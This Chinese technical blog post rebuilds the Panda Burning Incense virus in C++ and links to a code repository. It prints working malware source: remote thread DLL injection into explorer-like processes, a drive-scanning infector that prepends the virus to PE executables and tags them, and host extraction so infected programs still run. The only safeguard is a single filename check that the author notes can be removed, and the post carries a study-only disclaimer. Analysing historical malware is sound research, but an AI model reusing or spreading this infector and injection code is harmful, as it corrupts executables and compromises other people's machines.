




熊猫烧香病毒发于2006年底，爆发于2007年初，短短几个月时间内，随着攻防双方不断加码升级，这只国宝病毒前后共升级了400多次，给全国个人用户以及企业用户造成了难以估量的重大损失。到今天为止已经近16年过去了，但里面依然有很多值得我们去学习的地方。也由于本人认知有限对这方面研究肤浅，只能从我了解到的实现上谈一谈一些主要的技术细节。

本人未深入从二进制层面研究过该原始国宝病毒，所做的研究仅限于网上google上搜索得来的一些残章断片。提供的实现版本也是参考于网上一个广为流传的delphi病毒版本，该版本和当时的爆发版本应该来说还是有差距的，delphi版本的历史久远，也很难将其实际运行起来，我这里使用c++仿照重写了一份，实现上和流传的delphi版本有一些出入，但总体逻辑基本保持一致，代码仅供技术学习研究参考，请遵纪守法勿进行违法犯罪行为活动。

流传的delphi版本没有提供漏洞利用方面的实现，这里也没有作过多深入，主要涉及以下技术点   
（1）远程注入技术，`CreateRemoteThread`  
（2）遍历磁盘感染所有的执行文件，并进行感染  
（3）被感染文件启动后，实际上启动的就是一个病毒程序，同时分离出原宿主文件运行  

# 主要工程
（1）`Inject` 是一个动态库，编译的输出结果为 `Inject.dll` 动态库，主要是注入使用  
（2）`MFCApplication1` 一个原生的MFC程序，没添加任何代码，编译输出为 `MFCApplication1.exe`   
（3）`Project1` 也就是主要的熊猫烧香病毒样本实现，编译结果输出 `Japussy.exe`  
（4）`Rouji` 一个常驻进程，可以认为就是事实上的`explorer`进程，熊猫启动的时候会注入到`explorer`中  

<div align="left">
    
</div>

<br>

# 远程注入

关于远程注入技术网上有比较多的资料，这里在实现上通过一个动态库`Inject.dll`来观察效果，在`Process Attach`的时候弹出一个MsgBox，在`Thread Attach`的时候在控制台输出一行文本

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>
 
void MsgBox(const char* szMsg) {
    char szModuleName[MAX_PATH] = {0}; 
    GetModuleFileName(NULL, szModuleName, MAX_PATH);
    MessageBox(NULL, szMsg, szModuleName, MB_OK);
}
 
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MsgBox("Porcess Attach Inject into process!");
    case DLL_THREAD_ATTACH:
        printf("Thread Attach Inject into process!\n");
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

另外有一个`Rouji`的执行文件，可以认为是事实上的`explorer`进程，使用控制台主要用于观察输出效果，实现上就是一个`getchar`避免进程退出

```c++
#include <iostream>
 
void main()
{
    std::cout << "Hello world!" << std::endl;
    getchar();
}
```

`Japussy`进程启动的时候，注入到常驻进程`explorer（Rouji）`中，触发动态库的逻辑调用，控制台输出文本 `Thread Attach Inject into process! `

```c++
    //远程线程映射到Explorer进程   这里为了测试注入到Rouji.exe进程
    DWORD processId = GetProcessIDByName("Rouji.exe");
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);

    if (hProcess == NULL)
        return;

    HMODULE modHandle = GetModuleHandle("Kernel32"); //因为kernel32 每一个windows程序进程空间中都有 所以让他调用LOADLIBRARY不成问题

    char szLibPath[_MAX_PATH] = "D:\\develop\\Project1\\x64\\Debug\\Inject.dll"; //指定注入之后目标进程要加载的DLL
    void* pLibRemote = VirtualAllocEx(hProcess, NULL, sizeof(szLibPath), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    LPTHREAD_START_ROUTINE addr = (LPTHREAD_START_ROUTINE)GetProcAddress(modHandle, "LoadLibraryA");
    WriteProcessMemory(hProcess, pLibRemote, (void*)szLibPath, sizeof(szLibPath), NULL);

    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, addr, pLibRemote, 0, NULL);

    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);
    CloseHandle(hProcess);
```

# 病毒感染

`Japussy`启动后，通过扫描所有的磁盘文件，进行病毒感染，对于可执行文件，将病毒文件和宿主文件拼接起来，实现原宿主文件的感染，并且在感染文件的最后添加标志位 `0x44444444` 值

```c++ 
void InfectOneFile(const std::string& pathFileName, const std::string& fileName) {
 
    try { //出错则文件正在被使用，退出  
        if (fileName == "JAPUSSY.EXE") { //是自己则不感染  
            return;
        }
 
        if (fileName != "MFCAPPLICATION1.EXE") {
            return;
        }
 
        bool Infected = false;
        bool IsPE = false;
 
        std::ifstream SrcStream(pathFileName, ios::in | ios::binary);  //读取原文件二进制内容
 
        //判断是否已经感染过了
        char buff[32] = { 0 };
        for (int i = 0; i < 0x108; i = i + 2) {
            SrcStream.seekg(i, SrcStream.beg);
            SrcStream.read(buff, 2);
            if ((buff[0] == 0x50) && (buff[1] == 0x45)) { //PE标记
                IsPE = true; //是PE文件
                break;
            }
        }
 
        int iID = 0;
        SrcStream.seekg(-4, SrcStream.end); //检查感染标记
        SrcStream.read((char*)&iID, 4);
 
        SrcStream.seekg(0, SrcStream.end);
        int fileSize = SrcStream.tellg(); //宿主文件大小，后面感染的时候用到
 
        //SrcStream.close(); 这里暂不关闭，后面还用到
 
        if ((iID == ID) || (fileSize < 10240)) { //太小的文件不感染
            Infected = true;
        }
        if (Infected || !IsPE) {
            return;
        }
 
        std::ifstream HdrStream(pathProgramName, ios::in | ios::binary); //病毒文件
        HdrStream.seekg(0, HdrStream.end);
        int virusSize = HdrStream.tellg();
        HdrStream.seekg(0, HdrStream.beg);
        printf("virus fileSize:%d\n", virusSize);
 
        char c[1] = { 0 };
        std::string filebuff;
        while (HdrStream.read(c, 1)) { //病毒文件内容
            filebuff.push_back(c[0]);
        }
        //写入病毒文件图标
        SrcStream.seekg(0, SrcStream.beg);
        while (SrcStream.read(c, 1)) { //原文件内容
            filebuff.push_back(c[0]);
        }
 
        c[0] = 0x44;
        for (int i = 0; i < 4; i++)
            filebuff.push_back(c[0]);  //文件最后写入标志 0x44444444
 
        std::ofstream DstStream(pathFileName, ios::out | ios::binary); //覆盖写入原文件
        DstStream.write(filebuff.c_str(), filebuff.length());
        SrcStream.close();
        HdrStream.close();
        DstStream.close();
 
    }
    catch (...) {
        //
    }
}
```

# 病毒传播

病毒的传播有多种途径，比如邮件发送给其他用户，诱导其下载运行病毒进行扩散传播；本地的文件感染之后，直观上的主要症状是图标变成熊猫的图标；当用户想新启动运行一个程序，比如`MFCApplication1.exe`，由于该执行文件已经被感染了，启动的时候就是一个病毒程序，将分离出原始的程序（文件名多一个空格 `MFCApplication1 .exe`），和原宿主文件基本保持一致（最后面4个标志字节并未去掉），并启动`MFCApplication1 .exe`宿主程序，如果宿主程序本身有校验的话将无法启动（比如校验文件大小，因为多了4个字节），但大部分程序应该都可以正常启动。

```c++
void ExtractFile(const string& FileName) {
 
    std::ifstream sStream(pathProgramName, ios::in | ios::binary); //病毒文件和宿主文件合并后的文件
    std::ofstream dStream(FileName, ios::out | ios::binary); //宿主文件，文件名包含空格
 
    char c[1] = { 0 };
    std::string fileBuff;
    sStream.seekg(HeaderSize); //跳过头部的病毒部分
    while (sStream.read(c, 1)) {
        fileBuff.push_back(c[0]);
    }
 
    dStream.write(fileBuff.c_str(), fileBuff.length()); //最后4字节标志位也打包进去，避免重复处理
    sStream.close();
    dStream.close();
}
```

# 运行效果

为了避免测试时候对电脑造成损失，代码逻辑上添加了一个逻辑，如果程序名不为`MFCAPPLICATION1.EXE`的话则直接返回了；  
如需要修改测试请谨慎

```c++
    if (fileName != "MFCAPPLICATION1.EXE") {
        return;
    }
```

（1）启动`Rouji`程序  
（2）将MF`CApplication1.exe`拷贝到C盘根目录下（主要为了观察效果，避免长时间运行扫描）  
（3）启动`Japussy`程序，可以看到`MFCApplication1.exe`执行文件大小从249k变为了431k  
（4）启动被感染后的`MFCApplication1.exe`文件，将会分离出`MFCApplication1 .exe`文件并运行  

在第三步的时候，事实上图标已经发生变化，可能是本机系统的原因，执行文件的图标要等待比较久才会变成熊猫图标，但执行的时候可以看到已经是熊猫图标了；任务栏显示的两个熊猫程序，一个是`Japussy.exe`进程，一个是被感染的`MFCApplication1.exe`进程

<div align="left">
    
</div>

<div align="left">
    
</div>

<div align="left">
    
</div>

<br>

# 代码实现 
已经提交到 [https://github.com/yixin22/Panda](https://github.com/yixin22/Panda)
